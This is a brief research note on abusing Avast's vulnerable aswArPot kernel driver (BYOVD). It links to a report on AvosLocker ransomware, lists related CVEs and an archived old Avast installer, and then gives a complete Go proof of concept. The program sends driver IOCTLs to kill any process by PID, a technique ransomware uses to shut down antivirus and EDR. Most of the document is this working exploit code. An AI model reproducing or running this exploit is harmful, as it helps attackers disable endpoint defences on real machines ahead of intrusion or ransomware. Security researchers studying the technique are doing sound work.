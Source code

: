 Research - BYOVD Avast! Aswarpot  

https://www.trendmicro.com/en_us/research/22/e/avoslocker-ransomware-variant-abuses-driver-file-to-disable-anti-Virus-scans-log4shell.html  
https://cybersecuritynews.com/10-year-old-flaws-with-avast-and-avg/  

Related CVEs  
CVE-2022-26522  
CVE-2022-26523  
CVE-2021-40539

Avast download  
https://www.dell.com/community/en/conversations/virus-spyware/avast-12/647f65f2f4ccf8a8de2c25a3?msockid=14050a922f30675b240c1fa02e9d665e  
https://web.archive.org/web/20170201000000*/http://files.avast.com/iavs9x/avast_free_antivirus_setup_offline.exe  

POC - https://github.com/timwhitez/killProcessPOC/blob/main/aswarpot.go
```  
package main

import (
	"fmt"
	"golang.org/x/sys/windows"
	"os"
	"strconv"
	"unsafe"
)

func main() {
	if len(os.Args) != 2 {
		fmt.Println("./device.exe pid")
		return
	}

	if os.Args[1] == "-h" {
		fmt.Println("./device.exe pid")
		return
	}

	var volumename = fmt.Sprintf("\\\\.\\aswSP_ArPot2")
	hVolume, _ := windows.CreateFile(windows.StringToUTF16Ptr(volumename), 0xc0000000, 0, nil, windows.OPEN_EXISTING, 0x80, 0)

	//var local_10 []byte
	var local_1c uint32
	windows.DeviceIoControl(hVolume, 0x7299c004, nil, 4, nil, 0, &local_1c, nil)

	volumename = fmt.Sprintf("\\\\.\\aswSP_Avar")
	local_c, _ := windows.CreateFile(windows.StringToUTF16Ptr(volumename), 0xc0000000, 0, nil, windows.OPEN_EXISTING, 0x80, 0)

	pid, _ := strconv.Atoi(os.Args[1])
	processID := uint32(pid)
	var local_2c uint32
	windows.DeviceIoControl(local_c, 0x9988c094, (*byte)(unsafe.Pointer(&processID)), 4, nil, 0, &local_2c, nil)

	windows.CloseHandle(hVolume)
	windows.CloseHandle(local_c)

}
```  

